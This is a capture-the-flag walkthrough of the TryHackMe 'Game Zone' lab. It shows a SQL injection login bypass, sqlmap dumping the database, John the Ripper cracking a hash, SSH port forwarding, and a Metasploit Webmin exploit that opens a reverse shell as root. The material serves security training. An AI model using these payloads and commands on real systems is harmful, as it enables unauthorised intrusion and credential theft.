




# TryHackMe's Game Zone Room

<https://tryhackme.com/r/room/gamezone>

## Introduction

The Game Zone room on TryHackMe presents a learning experience for aspiring ethical hackers, simulating a real-world scenario of web application exploitation. This post will guide you through the key stages of the attack, from initial access to escalating privileges, showcasing practical techniques using tools like SQL injection, password cracking, and service exploitation.

Whether you're sharpening your pentesting skills or just getting started, this guide will help you understand the critical steps in compromising a vulnerable system, using the Game Zone room as a training ground. Let's dive in!

## Initial access

The room provides a web application at http://10.10.218.195/, we will login leveraging a sql injection vulnerability.
When a user tries to login the database receives a query similar to this:  
**SELECT \* FROM users WHERE username = :username AND password := password**  
We will use `' or 1=1 -- -` as the username and a empty password, so the query will look like this:  
**SELECT \* FROM users WHERE username = '' or 1=1 -- - AND password =**  
effectively becoming **SELECT \* FROM users WHERE username = '' or 1=1**  
The `'` closes username string and `-- -` is used to comment out what comes after it.  
The `1=1` forces the where clause to evaluate to true, this way we will login with the first user returned by the query.  
This allows us to login even if we don't know any valid username and if the classic 'admin' username is not present.

Next we will use **sqlmap** to dump the database.  
After logging in we reach a page with a search feature, type anything in the search box and capture the request with Burp.





Then we save the request to a file.



The following command uses our authenticated session, thanks to the request file, to detect vulnerabilities in order to dump the database.

```bash
root@ip-10-10-112-239:~/Downloads# sqlmap -r request.txt --dbms=mysql --dump
```

## Password cracking

In the database we obtained in the previous step there is a single user, we will use **John the Ripper** to crack the password hash of that user.  
Save the hash to a file (or use the file auto-generated by sqlmap) and run the following command.

```bash
john /tmp/sqlmapqflBjq6922/sqlmaphashes-7mItrA.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

Once you get the password, use it to ssh to the target machine:

```bash
root@ip-10-10-112-239:~/Downloads# ssh agent47@10.10.218.195
The authenticity of host '10.10.218.195 (10.10.218.195)' can't be established.
ECDSA key fingerprint is SHA256:mpNHvzp9GPoOcwmWV/TMXiGwcqLIsVXDp5DvW26MFi8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.218.195' (ECDSA) to the list of known hosts.
agent47@10.10.218.195's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$ whoami
agent47
```

Proceed to find the user flag

```bash
agent47@gamezone:~$ ls
user.txt
agent47@gamezone:~$ cat user.txt
[REDACTED]
```

## Exposing services

Looking for active services on the target machine we find an interesting one running on port 10000.

```bash
agent47@gamezone:~$  ss -tulpn
Netid State      Recv-Q Send-Q                                     Local Address:Port                                                    Peer Address:Port
udp   UNCONN     0      0                                                      *:68                                                                 *:*
udp   UNCONN     0      0                                                      *:10000                                                              *:*
tcp   LISTEN     0      80                                             127.0.0.1:3306                                                               *:*
tcp   LISTEN     0      128                                                    *:10000                                                              *:*
tcp   LISTEN     0      128                                                    *:22                                                                 *:*
tcp   LISTEN     0      128                                                   :::80                                                                :::*
tcp   LISTEN     0      128                                                   :::22                                                                :::*
```

Unfortunately this service is not directly accessible from our local machine, probably due to a firewall restricting access from the outside.  
Luckily we can get around the restriction with a nice trick: we use reverse ssh port forwarding.  
In particular, we will use **local port forwarding**: it allows a local computer (the client) to forward traffic to a remote server (through an SSH connection), making it seem as if the remote service is running on the local machine.

```bash
root@ip-10-10-112-239:~/Downloads# ssh -L 10000:localhost:10000 agent47@10.10.218.195
agent47@10.10.218.195's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Sun Oct 13 05:06:08 2024 from 10.10.112.239
```

Let's break down the previous command:  
`-L` stands for local port forwarding  
`10000:localhost:10000` means that all traffic sent to the port 10000 of the localhost will be forwarded to the port 10000 of the remote machine, via the ssh tunnel

Now we can access the remote service on localhost, as if it was running locally.



The service is a CMS, we can use the credentials found previously to log in.  
Once we are logged in we can easily find the CMS version.

If we did not have valid credentials we could have used nmap to find the CMS version.

```bash
root@ip-10-10-112-239:~/Downloads# nmap -sV -p 10000 localhost

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-13 11:40 BST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000052s latency).
Other addresses for localhost (not scanned): ::1

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.580 (Webmin httpd)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.14 seconds
```

## Privilege escalation

Using the CMS version we can find a metasploit exploit that will elevate our privileges to root.

```bash
msf6 > search webmin 1.580

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
```

Let's configure it:

```bash
msf6 > use 0
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD [REDACTED]
PASSWORD => [REDACTED]
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47
USERNAME => agent47
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LHOST 10.10.112.239
LHOST => 10.10.112.239
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
```

As you can notice in this case the remote host is configured to be 127.0.0.1, because we access the service via our local ssh tunnel.  
Let's run the exploit.

```bash
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP double handler on 10.10.112.239:4444
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[+] Payload executed successfully
[*] Command: echo L5KJMMxnzUHRKmdf;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "L5KJMMxnzUHRKmdf\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.10.112.239:4444 -> 10.10.218.195:59412) at 2024-10-13 12:12:40 +0100

whoami
root
```

We now have root access and can retrieve the root flag.

```bash
cd /root
ls
root.txt
cat root.txt
[REDACTED]
```

That's it for this room, see you in the next one.  
Happy hacking!
